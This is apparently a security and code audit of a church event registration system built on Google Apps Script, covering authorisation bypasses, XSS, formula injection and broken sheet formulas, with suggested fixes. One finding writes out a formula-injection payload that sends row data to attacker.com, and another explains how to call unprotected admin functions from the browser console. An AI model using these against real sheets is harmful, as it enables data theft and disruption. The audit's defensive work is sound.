* **Location:** `appsscript.json:6-9`, `Code.gs`, function `doPost(e)` (lines 7006–7059)
* **Vulnerability / Bug Description:**
  The Web App is configured in `appsscript.json` with `"executeAs": "USER_DEPLOYING"` and `"access": "DOMAIN"`. In Google Apps Script, all actions performed inside `doPost(e)` execute under the high-privilege credentials of the Master Administrator (Content Manager on the root USGA Shared Drive).
  1. `doPost(e)` validates authentication by comparing `incomingSecret` against `PropertiesService.getScriptProperties().getProperty("WEB_APP_SECRET_TOKEN")`. However, in Google Apps Script, `ScriptProperties` are globally readable by **any user with view or edit access to the container spreadsheet**. Any user in the domain can inspect `WEB_APP_SECRET_TOKEN` by running a basic script or macro.
  2. The caller identity is accepted directly from the untrusted request payload (`payload.coordinatorEmail`). An attacker who obtains the token can forge a POST request specifying any `@tjc.org` address, forcing the Master Admin account to provision arbitrary Google Forms and Sheets in the Shared Drive and grant Editor access to external entities.
* **Recommended Fix:**
  Enforce verified domain caller validation via `Session.getActiveUser().getEmail()`, validate caller domain boundaries, check authorized coordinator lists, and reject unauthenticated delegation.

#### Code Refactoring:
**Before (`Code.gs:7013-7045`):**
```javascript
    // Web App Security Check: Verify caller authorization
    const props = PropertiesService.getScriptProperties();
    const sharedSecret = props.getProperty("WEB_APP_SECRET_TOKEN");
    const allowedDomain = (props.getProperty("ALLOWED_EMAIL_DOMAIN") || "@tjc.org").toLowerCase().trim();
    const domainSuffix = allowedDomain.startsWith("@") ? allowedDomain : ("@" + allowedDomain);

    // 1. Mandatory secret token validation
    if (!sharedSecret) {
      Logger.log("WARNING: WEB_APP_SECRET_TOKEN is not configured in Script Properties. Rejecting request.");
      return ContentService.createTextOutput(JSON.stringify({
        status: "error",
        message: "Web App delegation is unconfigured. WEB_APP_SECRET_TOKEN must be set in Script Properties."
      })).setMimeType(ContentService.MimeType.JSON);
    }
    const incomingSecret = (e.parameter && e.parameter.token) || payload.secretToken;
    if (!incomingSecret || incomingSecret !== sharedSecret) {
      return ContentService.createTextOutput(JSON.stringify({
        status: "error",
        message: "Unauthorized: Missing or invalid secret token."
      })).setMimeType(ContentService.MimeType.JSON);
    }

    // 2. Validate coordinator identity
    const sessionCaller = Session.getActiveUser().getEmail().toLowerCase().trim();
    const coordEmail = String(payload.coordinatorEmail || sessionCaller || "").trim().toLowerCase();
    if (!coordEmail) {
      throw new Error("Unauthorized: Coordinator email is missing.");
    }
```

**After (`Code.gs:7013-7045`):**
```javascript
    const props = PropertiesService.getScriptProperties();
    const sharedSecret = props.getProperty("WEB_APP_SECRET_TOKEN");
    const allowedDomain = (props.getProperty("ALLOWED_EMAIL_DOMAIN") || "@tjc.org").toLowerCase().trim();
    const domainSuffix = allowedDomain.startsWith("@") ? allowedDomain : ("@" + allowedDomain);

    // 1. Mandatory secret validation
    if (!sharedSecret) {
      return ContentService.createTextOutput(JSON.stringify({
        status: "error",
        message: "Forbidden: WEB_APP_SECRET_TOKEN not configured."
      })).setMimeType(ContentService.MimeType.JSON);
    }
    
    const incomingSecret = String((e.parameter && e.parameter.token) || payload.secretToken || "");
    if (!incomingSecret || incomingSecret !== sharedSecret) {
      return ContentService.createTextOutput(JSON.stringify({
        status: "error",
        message: "Unauthorized: Invalid authentication credentials."
      })).setMimeType(ContentService.MimeType.JSON);
    }

    // 2. Verified caller session verification
    const callerEmail = Session.getActiveUser().getEmail().toLowerCase().trim();
    const targetCoordinator = String(payload.coordinatorEmail || callerEmail).toLowerCase().trim();
    
    if (callerEmail && !callerEmail.endsWith(domainSuffix)) {
      return ContentService.createTextOutput(JSON.stringify({
        status: "error",
        message: `Forbidden: Calling user (${callerEmail}) outside authorized domain.`
      })).setMimeType(ContentService.MimeType.JSON);
    }
    
    if (!targetCoordinator.endsWith(domainSuffix)) {
      return ContentService.createTextOutput(JSON.stringify({
        status: "error",
        message: `Forbidden: Target coordinator (${targetCoordinator}) must belong to ${domainSuffix}`
      })).setMimeType(ContentService.MimeType.JSON);
    }
    payload.coordinatorEmail = targetCoordinator;
```

---

### Issue 1.2: Unrestricted Administrative Action Access via UI Menu and Client RPC
* **Severity:** **High**
* **Location:** `Code.gs`, functions `deleteAllTriggers()` (lines 4518–4535), `cleanupDeadTriggers()` (lines 4484–4516), `configureDelegatedWebApp()` (lines 7064–7086), and `runSetup()` (lines 42–62)
* **Vulnerability / Bug Description:**
  Top-level functions in `Code.gs` are exposed to all users with spreadsheet access via `USGA Events > Advanced Maintenance` and through `google.script.run`. Functions like `deleteAllTriggers()`, `runSetup()`, and `configureDelegatedWebApp()` perform destructive modifications:
  - `deleteAllTriggers()` immediately purges all submission triggers and clears `FormsToMonitor` across all organization events.
  - `runSetup()` overwrites the master `Templates` and `Field Dictionary` tabs.
  - `configureDelegatedWebApp()` can overwrite the delegated Web App target URL with an arbitrary endpoint.
  There is no role-based access control (RBAC) checking whether `Session.getActiveUser().getEmail()` is an authorized administrator. Any church volunteer or coordinator who opens the master spreadsheet can execute these actions.
* **Recommended Fix:**
  Add a central authorization barrier (`assertAdminCaller()`) at the start of all administrative and destructive functions.

#### Code Refactoring:
**Before (`Code.gs:4518-4525`):**
```javascript
function deleteAllTriggers() {
  const ui = SpreadsheetApp.getUi();
  const response = ui.alert("WARNING: Delete ALL Triggers?", 
    "This will delete ALL email automation triggers for EVERY form you have generated so far and clear monitored event records. Only do this if you are testing and want a fresh start. Continue?", 
    ui.ButtonSet.YES_NO);
    
  if (response !== ui.Button.YES) return;
```

**After (`Code.gs:4518-4525`):**
```javascript
function isAuthorizedAdmin() {
  const userEmail = Session.getActiveUser().getEmail().toLowerCase().trim();
  const props = PropertiesService.getScriptProperties();
  const admins = (props.getProperty("AUTHORIZED_ADMIN_EMAILS") || "david.liou@tjc.org,us.events@tjc.org")
    .toLowerCase().split(",").map(s => s.trim());
  return admins.includes(userEmail);
}

function deleteAllTriggers() {
  const ui = SpreadsheetApp.getUi();
  if (!isAuthorizedAdmin()) {
    ui.alert("Access Denied", "Only designated USGA Administrators are permitted to reset system triggers.", ui.ButtonSet.OK);
    return;
  }
  const response = ui.alert("WARNING: Delete ALL Triggers?", 
    "This will delete ALL email automation triggers for EVERY form you have generated so far and clear monitored event records. Continue?", 
    ui.ButtonSet.YES_NO);
    
  if (response !== ui.Button.YES) return;
```

---

### Issue 1.3: Stored Cross-Site Scripting (XSS) via Unescaped Messages in ManageEventsSidebar
* **Severity:** **High**
* **Location:** `ManageEventsSidebar.html`, lines 588, 609, 612, 618, 646, 649, 655, 674, 679, 699, 702, 708, 728, 737
* **Vulnerability / Bug Description:**
  While input sanitization was applied to several fields in `Sidebar.html`, `ManageEventsSidebar.html` still interpolates raw server responses and error messages directly into the DOM using `.innerHTML`:
  ```javascript
  status.innerHTML = "<strong>Success!</strong> " + res.message.replace(/\n/g, "<br>");
  status.innerHTML = "<strong>Error:</strong> " + err.message;
  ```
  The values in `res.message` reflect room names, building names, attendee fields, or sheet titles fetched from the Google Sheets backend. An attacker who has edit access to an event response spreadsheet can input malicious HTML or JavaScript (e.g., ``) in the Room Inventory or Settings tab. When an event coordinator clicks "Sync Lodging", "Import Rooms", or "Rebuild Dashboard", the payload is returned in `res.message` and executes in the coordinator authenticated session.
* **Recommended Fix:**
  Sanitize all responses using a dedicated `escapeHtml` utility before interpolating into `.innerHTML`.

#### Code Refactoring:
**Before (`ManageEventsSidebar.html:608-618`):**
```javascript
            if (res && res.success) {
              status.className = "success";
              status.innerHTML = "<strong>Success!</strong> " + res.message.replace(/\n/g, "<br>");
            } else {
              status.className = "error";
              status.innerHTML = "<strong>Notice:</strong> " + (res ? res.message : "Unable to sync.");
            }
          })
          .withFailureHandler(function(err) {
            btn.disabled = false;
            status.className = "error";
            status.innerHTML = "<strong>Error:</strong> " + err.message;
          })
```

**After (`ManageEventsSidebar.html:608-618`):**
```javascript
            function safeHtmlMessage(msg) {
              return escapeHtml(String(msg || "")).replace(/\n/g, "<br>");
            }

            if (res && res.success) {
              status.className = "success";
              status.innerHTML = "<strong>Success!</strong> " + safeHtmlMessage(res.message);
            } else {
              status.className = "error";
              status.innerHTML = "<strong>Notice:</strong> " + safeHtmlMessage(res ? res.message : "Unable to sync.");
            }
          })
          .withFailureHandler(function(err) {
            btn.disabled = false;
            status.className = "error";
            status.innerHTML = "<strong>Error:</strong> " + escapeHtml(err && err.message ? err.message : String(err));
          })
```

---

### Issue 1.4: Formula Injection in Check-In and Public Driver Rosters
* **Severity:** **Medium**
* **Location:** `Code.gs`, function `masterRespondToRegistration(e)` (lines 3971, 3978); `TransportationSync.gs`, function `pullDriversFromPublic()` (lines 745–750)
* **Vulnerability / Bug Description:**
  In `masterRespondToRegistration`, attendee input values for `lastName`, `firstName`, and `localChurchVal` are appended directly to the `Check-In` sheet without text formatting:
  ```javascript
  checkInSheet.appendRow([false, false, lastName, firstName, localChurchVal, ...]);
  ```
  Similarly, in `TransportationSync.gs`, claims entered by public volunteers on the unprotected columns of the Public Driver Sheet (`driverName`, `driverPhone`, `driverNotes`) are copied into the private Master `Pickup` and `Drop-Off` sheets without sanitization:
  ```javascript
  mData[r][dNameIdx] = claim.driverName;
  ```
  If an attendee or public volunteer submits a payload starting with formula prefixes (`=`, `+`, `-`, `@`, `\t`, `\r`), such as `=HYPERLINK("https://attacker.com/leak?data=" & CONCATENATE(A2:Z2), "Claim Ride")` or `=IMPORTXML(...)`, Google Sheets evaluates the formula when opened by coordinators, leading to data exfiltration or client-side calculation hijacking.
* **Recommended Fix:**
  Pass all text values originating from form respondents and public volunteer inputs through `formatSheetTextValue()` to prepend a single apostrophe (`'`).

---

## Dimension 2: Bug Detection & Data Integrity Check (V2)

### Issue 2.1: Inverted Column Offsets and Hardcoded Ranges Breaking Check-In Sheet Formulas
* **Severity:** **Critical**
* **Location:** `Code.gs`, functions `getCheckInRoomLookupFormula()` (lines 1077–1079) and `getCheckInGroupLookupFormula()` (lines 1081–1083)
* **Vulnerability / Bug Description:**
  In `Check-In` sheet generation, `getCheckInRoomLookupFormula()` is placed in Column 7 (`Lodging / Room Assignment`), and `getCheckInGroupLookupFormula()` is placed in Column 8 (`Group / Team`).
  1. The formulas attempt to match the participant First Name (Column 4) and Last Name (Column 3) using R1C1 notation:
     ```javascript
     LOWER(TRIM(Lodging!$A$2:$A))=LOWER(TRIM(INDIRECT("RC[4]", FALSE))), LOWER(TRIM(Lodging!$B$2:$B))=LOWER(TRIM(INDIRECT("RC[3]", FALSE)))
     ```
     From Column 7, `RC[4]` points to Column 11 (Empty) and `RC[3]` points to Column 10 (`Email`). Because the formula evaluates positive column offsets (to the right) rather than negative offsets (`RC[-3]` for Column 4, `RC[-4]` for Column 3), the lookup comparison **never succeeds**.
  2. The formula hardcodes `Lodging!$N$2:$N` (Room Assignment), `Lodging!$P$2:$P` (Bed/Spot), and `Lodging!$M$2:$M` (Status). If an event does not select all lodging questions, `Lodging` has fewer columns, causing the formula to reference completely incorrect columns or out-of-bounds ranges.
  **Impact:** The room assignment lookup on the Check-In tab displays `"Self / Hotel"` for 100% of participants, rendering the on-site room check-in feature non-functional.
* **Recommended Fix:**
  Correct the relative offsets to negative values (`RC[-3]`, `RC[-4]`) and dynamically resolve target column references from the `Lodging` tab headers using `INDEX/MATCH`.

#### Code Refactoring:
**Before (`Code.gs:1077-1083`):**
```javascript
function getCheckInRoomLookupFormula() {
  return `=IF(INDIRECT("RC[3]", FALSE)="", "", IFERROR(INDEX(FILTER(IF(Lodging!$N$2:$N<>"", Lodging!$N$2:$N & IF(Lodging!$P$2:$P<>"", " (" & Lodging!$P$2:$P & ")", ""), "⚠️ Unassigned (Needs Room)"), LOWER(TRIM(Lodging!$A$2:$A))=LOWER(TRIM(INDIRECT("RC[4]", FALSE))), LOWER(TRIM(Lodging!$B$2:$B))=LOWER(TRIM(INDIRECT("RC[3]", FALSE))), Lodging!$M$2:$M<>"CANCELLED", Lodging!$M$2:$M<>"WAITLISTED"), 1), "Self / Hotel"))`;
}

function getCheckInGroupLookupFormula() {
  return `=IF(INDIRECT("RC[2]", FALSE)="", "", IFERROR(INDEX(FILTER(INDEX(Logistics!$A$2:$ZZ, 0, MATCH("Group/Team", Logistics!$1:$1, 0)), LOWER(TRIM(Logistics!$A$2:$A))=LOWER(TRIM(INDIRECT("RC[3]", FALSE))), LOWER(TRIM(Logistics!$B$2:$B))=LOWER(TRIM(INDIRECT("RC[2]", FALSE)))), 1), ""))`;
}
```

**After (`Code.gs:1077-1083`):**
```javascript
function getCheckInRoomLookupFormula() {
  // Check-In: Col 7 (Lodging / Room Assignment). First Name is Col 4 (RC[-3]), Last Name is Col 3 (RC[-4]).
  return `=IF(INDIRECT("RC[-4]", FALSE)="", "", IFERROR(INDEX(FILTER(IF(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Room Assignment", Lodging!$1:$1, 0))<>"", INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Room Assignment", Lodging!$1:$1, 0)) & IF(INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Bed / Spot", Lodging!$1:$1, 0))<>"", " (" & INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Bed / Spot", Lodging!$1:$1, 0)) & ")", ""), "⚠️ Unassigned (Needs Room)"), LOWER(TRIM(Lodging!$A$2:$A))=LOWER(TRIM(INDIRECT("RC[-3]", FALSE))), LOWER(TRIM(Lodging!$B$2:$B))=LOWER(TRIM(INDIRECT("RC[-4]", FALSE))), INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Status", Lodging!$1:$1, 0))<>"CANCELLED", INDEX(Lodging!$A$2:$ZZ, 0, MATCH("Status", Lodging!$1:$1, 0))<>"WAITLISTED"), 1), "Self / Hotel"))`;
}

function getCheckInGroupLookupFormula() {
  // Check-In: Col 8 (Group / Team). First Name is Col 4 (RC[-4]), Last Name is Col 3 (RC[-5]).
  return `=IF(INDIRECT("RC[-5]", FALSE)="", "", IFERROR(INDEX(FILTER(INDEX(Logistics!$A$2:$ZZ, 0, MATCH("Group/Team", Logistics!$1:$1, 0)), LOWER(TRIM(Logistics!$A$2:$A))=LOWER(TRIM(INDIRECT("RC[-4]", FALSE))), LOWER(TRIM(Logistics!$B$2:$B))=LOWER(TRIM(INDIRECT("RC[-5]", FALSE)))), 1), ""))`;
}
```

---

### Issue 2.2: Schema Desynchronization in `System Log` between `appendAuditLog` and `syncActiveEventsFromSystemLog`
* **Severity:** **High**
* **Location:** `Code.gs`, functions `appendAuditLog` (lines 4423–4474) and `syncActiveEventsFromSystemLog` (lines 76–84, 206–216)
* **Vulnerability / Bug Description:**
  The Master Google Spreadsheet (`1ZfdmYXN82Mtj3fginstI6aItvvBQNsNoj08s6hCNKF0`) defines a 14-column structure for the `System Log` tab:
  `Timestamp | Template Name | Event Year | Coordinator | Event Title | Send-As Mailbox | Form URL | Response Sheet URL | Drive Folder URL | Fields Included | Archive Status | Registration Open | Registration Close | Event Start Date`
  1. `appendAuditLog()` only writes the first 10 columns (A–J). It completely omits `Archive Status` (Col K), `Registration Open` (Col L), `Registration Close` (Col M), and `Event Start Date` (Col N).
  2. When `syncActiveEventsFromSystemLog()` reconstructs `formsToMonitor` from the `System Log`, lines 76–84 never index or read Columns L, M, and N. Instead, lines 206–208 hardcode `start: null, end: null, eventStart: null, max: null`.
  **Impact:** Any event recovered or synchronized from the `System Log` permanently loses its registration window, capacity limits, and event start timestamp. As a result, the automated lifecycle cron (`masterFormLifecycleCron`) cannot auto-open or auto-close synchronized events.
* **Recommended Fix:**
  Align `appendAuditLog` to write all 14 columns into `System Log`, and update `syncActiveEventsFromSystemLog` to parse `Registration Open`, `Registration Close`, and `Event Start Date`.

---

### Issue 2.3: Column Mapping Corruption in `Pickup` and `Drop-Off` when `hasTrainBusCols` Evaluates to False
* **Severity:** **High**
* **Location:** `Code.gs`, function `masterRespondToRegistration(e)` (lines 3466–3473 and 3602–3612)
* **Vulnerability / Bug Description:**
  In `setupTransportationSheets`, `Pickup` and `Drop-Off` sheets are always initialized with 22 columns (Cols 12–14 are Train/Bus Station, Carrier, and Number; Col 15 is Status).
  In `masterRespondToRegistration`, line 3466 checks:
  ```javascript
  if (hasTrainBusCols) {
    newRowData = [firstName, ..., arrFlight, arrTrainStation, arrCarrier, arrTrainNumber, flightStatus];
  } else {
    newRowData = [firstName, ..., arrFlight, flightStatus]; // 12 elements
  }
  ```
  If `hasTrainBusCols` evaluates to false, `newRowData` has only 12 items.
  When updated on line 3473:
  ```javascript
  pickupSheet.getRange(foundRowIndex, 1, 1, newRowData.length).setValues([newRowData]);
  ```
  `flightStatus` ("Active" or "UPDATED") is written to **Column 12** ("Arrival Train/Bus Station") instead of Column 15. The real Status column (Col 15) remains untouched.
* **Recommended Fix:**
  Build transportation updates using dynamic header mapping rather than hardcoded positional indices.

---

### Issue 2.4: Silent Drop of Registration Processing on Concurrency Lock Acquisition Timeout
* **Severity:** **High**
* **Location:** `Code.gs`, function `masterRespondToRegistration(e)` (lines 3169–3179)
* **Vulnerability / Bug Description:**
  When `lock.tryLock(30000)` times out under burst submissions (e.g., when an event opens and dozens of registrants submit simultaneously), the function logs an entry and immediately returns without writing to operational sheets or sending confirmation emails.
  **Impact:** The dropped registrant is left without confirmation or operational assignment.
* **Recommended Fix:**
  Tag the row with an explicit status (`Concurrency Lock Busy - Queued for Auto-Retry`) to alert coordinators and enable retry processing.

---

### Issue 2.5: Hardcoded Response Sheet Name `"Form Responses 1"` Breaking Non-English and Renamed Tabs
* **Severity:** **Medium**
* **Location:** `Code.gs`, lines 6203, 6219, 6414, 6763, 7096; and `setupSummaryDashboard` (lines 1502, 1510, 1560)
* **Vulnerability / Bug Description:**
  Multiple maintenance routines call `targetSs.getSheetByName("Form Responses 1")` without fallbacks. In non-English Google Workspace accounts (e.g. Traditional Chinese, where Google Forms names the tab `表單回應 1`), or when the coordinator follows the checklist in the User Guide to rename the tab to `Participants`, these functions immediately throw: `Error: Could not find "Form Responses 1" tab in [Spreadsheet Name]`.
* **Recommended Fix:**
  Introduce a centralized `findResponsesSheet(ss)` resolver that checks for `"Form Responses 1"`, `"Participants"`, `"表單回應 1"`, or inspects form destination linkage, and dynamically inject the resolved tab name into formulas.

---

## Dimension 3: Performance & Quota Optimization (V2)

### Issue 3.1: Apps Script `ScriptProperties` 9 KB Quota Exhaustion from Unbounded `FormsToMonitor`
* **Severity:** **Critical**
* **Location:** `Code.gs`, lines 2626–2642 and line 5214
* **Vulnerability / Bug Description:**
  Google Apps Script enforces a hard limit of **9 KB (9,216 bytes) per value** in `PropertiesService.getScriptProperties()`. Every time a form is generated, an event configuration object is appended to `FormsToMonitor`. At ~30-35 events, `JSON.stringify(monitor)` exceeds 9,216 bytes, causing `setProperty` to throw `Exception: The argument is too large` and crashing all form generation and lifecycle crons.
* **Recommended Fix:**
  Compact keys to 1–2 characters (e.g. `t` for title, `s` for start, `e` for end), purge completed and archived events older than 45 days from active properties, and ensure backwards compatibility when reading both old and compacted keys.

---

### Issue 3.2: Unbounded Sequential RPC Loop in Hourly Lifecycle Cron Exceeding 6-Minute Timeout
* **Severity:** **High**
* **Location:** `Code.gs`, function `masterFormLifecycleCron()` (lines 5106–5219)
* **Vulnerability / Bug Description:**
  `masterFormLifecycleCron()` iterates sequentially over every form in `formsToMonitor`. Even after an event closes and its trigger is deleted, it continues opening every closed form and spreadsheet via individual API round-trips every hour. With 40+ historical events, execution exceeds the 6-minute trigger limit.
* **Recommended Fix:**
  Fast-path skip API calls for events whose registration end date and event start date have already passed and whose acceptance state was already confirmed closed (`config.isAutoClosed && config.triggerReleased`).

---

### Issue 3.3: Unbounded Multi-Spreadsheet Sync in 15-Minute Background Trigger
* **Severity:** **High**
* **Location:** `TransportationSync.gs`, function `backgroundTransportationSync()` (lines 1436–1485)
* **Vulnerability / Bug Description:**
  Every 15 minutes, `backgroundTransportationSync` syncs every spreadsheet in `FormsToMonitor` and `PublicTransportEventSheetIds`. For multiple active events, execution exceeds the 6-minute limit. In addition, it lacks a top-level concurrency lock, permitting overlapping trigger executions to collide.
* **Recommended Fix:**
  Add a `LockService` check at the top of `backgroundTransportationSync`, cap execution time at 4.5 minutes, and only sync events within 14 days before or 7 days after the event start date.

---

### Issue 3.4: Missing Cache Invalidation Hooks on Dictionary Mutations
* **Severity:** **Medium**
* **Location:** `Code.gs`, functions `getConfigData()` (lines 583–678), `runSetup()` (lines 42–62), and `runFieldAudit()` (lines 5032–5080)
* **Vulnerability / Bug Description:**
  `getConfigData()` caches configuration in `CacheService.getScriptCache()` for 1 hour. When administrators run `runSetup()` or `runFieldAudit()`, `CacheService.getScriptCache().remove("USGA_CONFIG_DATA")` is never called, serving stale definitions for up to 1 hour.
* **Recommended Fix:**
  Add `invalidateConfigCache()` hooks across setup and dictionary maintenance functions.

---

## Action Plan & Priority Remediation Matrix (V2)

| Priority | Issue Reference | Category | Severity | Direct Impact |
| :--- | :--- | :--- | :--- | :--- |
| **P0** | **Issue 1.1** | Security | **Critical** | Unauthenticated privilege escalation & domain-wide Shared Drive folder creation |
| **P0** | **Issue 2.1** | Bug / Integrity | **Critical** | Inverted column offsets (`RC[3]`) break Check-In room lookups for all participants |
| **P0** | **Issue 3.1** | Performance | **Critical** | 9 KB `ScriptProperties` limit crashes all form generation and crons after ~30 events |
| **P1** | **Issue 1.2** | Security | **High** | Unrestricted `deleteAllTriggers()` and admin menus exposed to non-admin users |
| **P1** | **Issue 1.3** | Security | **High** | Stored XSS in `ManageEventsSidebar.html` via unescaped server response messages |
| **P1** | **Issue 2.2** | Schema Integrity | **High** | `appendAuditLog` omits columns K–N; `syncActiveEvents` sets `start/end: null` |
| **P1** | **Issue 2.3** | Data Integrity | **High** | `newRowData` 12-column mismatch writes `flightStatus` into Train/Bus Station column |
| **P1** | **Issue 2.4** | Data Integrity | **High** | Concurrency lock timeout drops registrations without retrying or saving |
| **P1** | **Issue 3.2** | Performance | **High** | Hourly lifecycle cron hits 6-min timeout iterating over closed historical events |
| **P1** | **Issue 3.3** | Performance | **High** | 15-minute background sync exceeds 6-min execution limit across multiple sheets |
| **P2** | **Issue 1.4** | Security | **Medium** | Formula injection in `Check-In` names and public driver claim notes |
| **P2** | **Issue 2.5** | Bug / Integrity | **Medium** | Hardcoded `"Form Responses 1"` tab name crashes on bilingual and renamed sheets |
| **P2** | **Issue 3.4** | Performance | **Medium** | Missing cache invalidation serves stale dictionary and template options for 1 hour |
| **P3** | **Issue 1.5** | Security | **Low** | Hardcoded production Shared Drive ID and Logo asset ID fallback |


# Version 4 (V4) Comprehensive Security Audit, Bug Detection, and Performance Review
**USGA Event Registration System**

---

## Executive Summary (V4)

A comprehensive architectural, security, and static code audit was conducted across the USGA Event Registration ecosystem, evaluating:
* **Google Apps Script ID:** `1yM5ZN3pPqJ_qDWdtoSEOp5KmU9k82-kRrqIqxhaZoRKkkDw9YpKQnwd5`
* **GitHub Repository:** `davidliou-lgtm/USGA_Events`
* **Master Google Sheet:** `1ZfdmYXN82Mtj3fginstI6aItvvBQNsNoj08s6hCNKF0`
* **Requirements & Technical Specifications Doc:** `1yIBHJEphSfRKoyeady3-rsN_ZJjfye2KHq93wpAP8os`

This V4 audit uncovered several high-impact runtime bugs, security authorization bypasses, and data desynchronizations:

1. **Security & Authorization Audit:**
   * **Default Admin Privilege Escalation:** `isAuthorizedAdmin()` automatically returns `true` whenever `Session.getActiveUser().getEmail()` is empty (anonymous, masked, or trigger context), or defaults all `@tjc.org` emails to full admins if `ADMIN_EMAILS` is unconfigured.
   * **Missing Authorization on Client-Callable Mutators:** Critical functions (`archiveMonitoredEvent`, `toggleEventAcceptingResponses`, `updateMonitoredEvent`) lack caller verification, allowing any spreadsheet user to shut down registrations or delete project triggers via client RPC.
   * **DOM XSS & Scope Collision in `Sidebar.html`:** `escapeHtml` is declared inside `renderFields()`, causing global failure handlers (`onError`) to throw `ReferenceError: escapeHtml is not defined`, while unescaped error strings are injected into `status.innerHTML`.
   * **Formula Injection in Check-In Synchronization:** `syncCheckInAndChangeLogForSheet` writes participant names and notes directly without text sanitization.

2. **Bug Detection & Data Integrity Check:**
   * **FATAL: Block-Scoped `let form` ReferenceError:** In `masterRespondToRegistration()`, `let form` is declared inside an `if (!editResponseUrl)` block. The subsequent check `if (form)` outside the block throws a fatal `ReferenceError: form is not defined` for 100% of registrations, aborting email delivery completely.
   * **Typo in `"Bed / Spot"` Header:** `getCheckInRoomLookupFormula()` queries `MATCH("Bed Spot", Lodging!$1:$1, 0)` instead of `"Bed / Spot"`, causing bed/spot lookups to fail for all attendees.
   * **Waitlist Corruption in Room Inventory:** Formulas in `Room Inventory` filter on `<>CANCELLED` but omit `<>WAITLISTED`, erroneously reserving rooms and displaying waitlisted attendees on confirmed room rosters.
   * **Resurrection of Cancelled/Waitlisted Attendees:** `syncLodgingAndRoomsForSheet` forces `Status = "Active"` for all registrants without checking medical consent or waitlist status.
   * **Public Transport Clusterer Leaks Waitlisted Participants:** `clusterAndChunkTransportation` only skips `CANCELLED` attendees, clustering waitlisted registrants into driver runs on the public sheet.
   * **Method Signature Exception with `setFontLine(null)`:** `Range.setFontLine(null)` throws runtime exceptions when clearing strikethrough styling during status updates.

3. **Performance & Quota Optimization:**
   * **$2N$ Loop-Nested Sheets API Calls:** `logRegistrationChanges()` executes iterative `appendRow()` and `setDataValidation()` calls in a loop instead of batching.
   * **Compacted Keys Desynchronization:** `masterFormLifecycleCron` accesses `config.start` and `config.end` directly without calling `normalizeMonitoredConfig()`, failing to open/close forms when compacted properties are used.
   * **Trigger Erasure in `deleteAllTriggers()`:** Project triggers are wiped without reinstating essential system cron triggers (`masterFormLifecycleCron`, `backgroundTransportationSync`).

---

## Dimension 1: Security & Authorization Audit (V4)

### Issue 1.1: Default Admin Privilege Escalation via Empty Session and Missing RPC Authorization Guards
* **Severity:** **Critical**
* **Location:** `Code.gs`, functions `isAuthorizedAdmin()` (lines 699–727), `archiveMonitoredEvent()` (lines 519–550), `toggleEventAcceptingResponses()` (lines 490–517), `updateMonitoredEvent()` (lines 422–488)
* **Vulnerability / Bug Description:**
  1. In `isAuthorizedAdmin()`:
     ```javascript
     const userEmail = Session.getActiveUser().getEmail().toLowerCase().trim();
     if (!userEmail) {
       ...
       return true; // LINE 708: Escalates unauthenticated/anonymous calls to Admin!
     }
     if (userEmail.endsWith(domainSuffix)) {
       return true; // LINE 719: Grants all domain users admin rights if ADMIN_EMAILS unset!
     }
     ```
     When caller email cannot be determined (e.g. web app invocation, anonymous access, or restrictive domain settings), `isAuthorizedAdmin()` returns `true`. Furthermore, if `ADMIN_EMAILS` is not configured in `ScriptProperties`, every domain user (including minor registrants or general church members) is granted administrative privileges.
  2. The administrative functions `archiveMonitoredEvent(formId)`, `toggleEventAcceptingResponses(formId, shouldAccept)`, and `updateMonitoredEvent(formId, updatedConfig)` are exposed globally and callable by any client via `google.script.run`. **None of these three functions verify caller authorization.** Any user with view/edit access to the spreadsheet can execute `google.script.run.archiveMonitoredEvent(...)` from the browser console, shutting down live event registration and deleting triggers.
* **Impact:** Unauthorized users can open/close registration windows, alter attendee capacity limits, delete triggers, or decommission active event monitoring.
* **Recommended Fix:**
  Reject callers with empty emails in `isAuthorizedAdmin()`. Require explicit admin approval or event-specific coordinator ownership before allowing event modification, closure, or archiving.

#### Code Refactoring:
**Before (`Code.gs:701-727`):**
```javascript
function isAuthorizedAdmin() {
  const userEmail = Session.getActiveUser().getEmail().toLowerCase().trim();
  if (!userEmail) {
    try {
      const ss = SpreadsheetApp.getActiveSpreadsheet();
      const editors = ss.getEditors().map(e => e.getEmail().toLowerCase().trim());
      const owner = ss.getOwner() ? ss.getOwner().getEmail().toLowerCase().trim() : "";
      if (editors.includes(userEmail) || owner === userEmail) return true;
    } catch (e) {}
    return true; // Vulnerable fallback
  }
  const props = PropertiesService.getScriptProperties();
  const adminList = (props.getProperty('ADMIN_EMAILS') || '').toLowerCase().split(',').map(s => s.trim()).filter(Boolean);
  const allowedDomain = (props.getProperty('ALLOWED_EMAIL_DOMAIN') || '@tjc.org').toLowerCase().trim();
  const domainSuffix = allowedDomain.startsWith('@') ? allowedDomain : ('@' + allowedDomain);

  if (adminList.length > 0) {
    return adminList.includes(userEmail);
  }
  if (userEmail.endsWith(domainSuffix)) {
    return true; // Overly permissive default
  }
  return false;
}
```

**After (`Code.gs:701-727`):**
```javascript
function isAuthorizedAdmin() {
  const userEmail = Session.getActiveUser().getEmail().toLowerCase().trim();
  if (!userEmail) {
    // Unauthenticated or masked session must never be granted admin privileges
    return false;
  }
  const props = PropertiesService.getScriptProperties();
  const adminList = (props.getProperty('ADMIN_EMAILS') || '').toLowerCase().split(',').map(s => s.trim()).filter(Boolean);
  
  if (adminList.length > 0) {
    return adminList.includes(userEmail);
  }
  
  // Check spreadsheet owner if adminList is not explicitly populated
  try {
    const ss = SpreadsheetApp.getActiveSpreadsheet();
    const owner = ss.getOwner() ? ss.getOwner().getEmail().toLowerCase().trim() : "";
    if (owner && owner === userEmail) return true;
  } catch (e) {}
  
  return false;
}

function verifyEventCoordinatorOrAdmin(formId) {
  if (isAuthorizedAdmin()) return true;
  const userEmail = Session.getActiveUser().getEmail().toLowerCase().trim();
  if (!userEmail) throw new Error("Unauthorized: Session caller cannot be identified.");
  
  const props = PropertiesService.getScriptProperties();
  const monitor = JSON.parse(props.getProperty('FormsToMonitor') || '{}');
  const cfg = monitor[formId];
  if (cfg && cfg.contactEmail && cfg.contactEmail.toLowerCase().trim() === userEmail) {
    return true;
  }
  throw new Error("Unauthorized: You do not have permission to modify this event.");
}
```

---

### Issue 1.2: Cross-Site Scripting (DOM XSS) & ReferenceError Crash in Sidebar Error Handlers
* **Severity:** **High**
* **Location:** `Sidebar.html`, lines 398, 753–761, 946–952
* **Vulnerability / Bug Description:**
